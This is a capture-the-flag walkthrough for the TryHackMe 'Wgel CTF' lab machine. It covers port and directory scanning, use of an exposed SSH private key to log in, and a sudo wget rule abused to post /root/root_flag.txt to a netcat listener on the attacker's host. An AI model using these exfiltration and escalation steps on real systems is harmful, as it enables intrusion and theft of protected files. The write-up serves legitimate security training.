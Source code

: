 # [Wgel CTF](https://tryhackme.com/room/wgelctf)

`Machine's IP - 10.10.33.168`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.33.168 -Pn > nmap-wgel.log`

# Analyzing Information and Risks


```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-18 21:23 Central Standard Time (Mexico)
Nmap scan report for 10.10.33.168
Host is up (0.60s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.68 seconds
```

Realizing that `SSH` amd `HTTP` was open, I went to the website to see if maybe we can get some more information about the server. 

# Web Analysis

Upon entering `http://10.10.33.168/` I noticed that it was the default starting template for Apache2. The strange thing was that the listing was wrong, look:

```bash
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 
          
```

If you've used Apache2 before, you'd know something was wrong too, so I viewed the source file and found this:

```
 <!-- Jessie don't forget to udate the webiste -->
```

So, we can guess the user is `Jessie`.

# Directory Enumeration

### Gobuster 

With `Gobuster` I was able to determine that the url given to us had a directory in it.

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.178.77
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/24 16:59:12 Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.178.77/sitemap/]
Progress: 145 / 220561 (0.07%)    
```

Upon searching the site found in that directory, I couldn't find anything useful so I returned to the directory enumeration on this new url. With the common files found I just didn't find anything useful in other directories or files. So, I decided to find other type of files and extensions.

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.178.77/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/24 17:02:39 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.178.77/sitemap/.ssh/]
Progress: 172 / 4615 (3.73%) 
```

And bingo! We found an `SSH` key that could belong to the user found previously.

### Dirbuster

Using dirbuster, I was able to find `http://10.10.33.168/sitemap/`. Here, I decided to try getting an indexing page and stumbled upon `http://10.10.33.168/sitemap/.ssh/` which gave me an `id_rsa`. Quickly, I downloaded the key and prepared myself for SSH login.

First, I renamed the file to match with the user \
`mv id_rsa.txt id_jessie`

Secondly, I changed the permissions of the file \
`chmod 600 id_jessie`

Finally, I got in `ssh -i id_jessie jessie@10.10.33.168` and had a console. 

Once inside, I looked for the `user.txt`.

```bash
jessie@CorpOne:~$ find | grep flag
./Documents/user_flag.txt
jessie@CorpOne:~$ cat ~/Documents/user_flag.txt
********************************
```

I tried to enumerate my permissions after that with `sudo -l` and noticed something strange but interesting

```bash
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Once read that, I immediately opened a new tab and went to [GTFOBins](https://gtfobins.github.io/) and searched for `wget`. Here, I was bestowed upon me the following command

```bash
wget --post-file=$LFILE $URL
```

I got another tab in bash open, started a `Netcat` listener

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
```

On my SSH key I ran the following command

```bash
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.6.20.112:4445/
--2020-11-19 05:47:41--  http://10.6.20.112:4445/
Connecting to 10.6.20.112:4445... connected.
```

And just like that, I got the `root.txt`

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.6.20.112] from (UNKNOWN) [10.10.33.168] 43532
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.6.20.112:4445
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

********************************
```

## License
[MIT](https://choosealicense.com/licenses/mit/)
